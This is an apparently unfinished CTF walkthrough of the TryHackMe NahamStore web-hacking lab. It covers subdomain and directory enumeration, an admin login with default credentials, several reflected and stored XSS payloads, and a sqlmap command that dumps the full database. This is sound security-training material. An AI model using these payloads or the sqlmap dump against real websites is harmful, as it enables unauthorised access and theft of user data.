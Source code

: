 ```yaml
---
title: NahamStore
date: 2023-02-28 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [security, web, bug bounty]
published: true
---
```


Learning the basics of bug bounty and web application hacking.

[NahamSec](https://twitter.com/nahamsec) set this room was setup to test what people learned on this [Udemy Course](http://bugbounty.nahamsec.training/) "Intro to Bug Bounty Hunting and Web Application Hacking". I havent done the course so going to try this for practice.

We need to start by modifying `/etc/hosts` and adding the domain.

```bash 
10.10.149.84    nahamstore.thm
```
{: file="/etc/hosts" }


## nmap Scans

Initial nmap scan we only have a couple open ports 22 ssh, and 80 webserver.

```shell
sudo nmap -p22,80,8000 nahamstore.thm -vvvv -sC -sV -O -oN nmap_services
```

## Enumeration

Seeing we find an open webserver - going to run `feroxbuser` for directories and files and `wfuzz` for subdomains in the background.

```bash
feroxbuster -u http://nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -txt,php
```

Using wfuzz to scan for subdomains and filtering out 302 responses with 65 words

```bash
wfuzz -c -t 50 -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.nahamstore.thm" --hc 302 --hw 65
```

Found a few subdomains to check out

```shell
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://nahamstore.thm/
Total requests: 100000
=====================================================================
ID           Response   Lines    Word       Chars       Payload   
=====================================================================

000000001:   301        7 L      13 W       194 Ch      "www" 
000000013:   301        7 L      13 W       194 Ch      "shop"  
000000668:   200        41 L     92 W       2025 Ch     "marketing"  
000003809:   200        0 L      1 W        67 Ch       "stock"   
```

We can add these to `/etc/hosts` so we can access them for further enumeration. Our first task is to find Jimmy Jones SSN.

### Port 8000 

Seemed interesting and further enumeration there we find a login to the Marketing Manager.

- `http://nahamstore.thm:8000/admin/login` just using the creds admin:admin lets us login

## Recon




## XSS Vulnerabilities

### URL Endpoint vulnerable to XSS

- `http://marketing.nahamstore.thm/?error=`

URL encoded GET input error was set to `1'"()&%<script>alert()</script>`

### Stored XSS

The User-Agent HTTP header can be used to create stored XSS

### Hidden parameter on the product page

- URL encoded GET input q was set to 1"onmouseover=alert(boo)"

The input is reflected inside a tag parameter between double quotes. 

### Product Page HTML Tag

The vulnerability affects `http://nahamstore.thm/product` 

URL encoded GET input name was set to `Sticker Pack</title><script>alert()</script>`

### JS Variable Escape

```javascript
var search = '';
$.get('/search-products?q=' + search,function(resp){
    if( resp.length == 0 ){

        $('.product-list').html('<div class="text-center" style="margin:10px">No matching products found</div>');

    }else {
        $.each(resp, function (a, b) {
            $('.product-list').append('<div class="col-md-4">' +
                '<div class="product_holder" style="border:1px solid #ececec;padding: 15px;margin-bottom:15px">' +
                '<div class="image text-center"><a href="/product?id=' + b.id + '"><img class="img-thumbnail" src="/product/picture/?file=' + b.img + '.jpg"></a></div>' +
                '<div class="text-center" style="font-size:20px"><strong><a href="/product?id=' + b.id + '">' + b.name + '</a></strong></div>' +
                '<div class="text-center"><strong>$' + b.cost + '</strong></div>' +
                '<div class="text-center" style="margin-top:10px"><a href="/product?id=' + b.id + '" class="btn btn-success">View</a></div>' +
                '</div>' +
                '</div>');
        });
    }
````

### Returns Page

- we can escape the textarea with `</textarea>` and `<script>alert()</script>`

### Value of H1 Tag

When you hit a nonexisting endpoint `http://nahamstore.thm/0xskar` an error page reflects the path entered.

### Hidden Parameter

On a product page (eg. `http://nahamstore.thm/product?id=1&added=1`), you can enter a discount code. The name of the POST parameter is discount:

```html
<div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value=""></div>
```

## SQL Injection

using sqlmap we can dump the entire database

```shell
sqlmap -u http://nahamstore.thm/product?id=2 --batch --all
```

### Flag 1

![Flag 1](/assets/nahamstore01.png)




Page is incomplete as I am working on the room currently


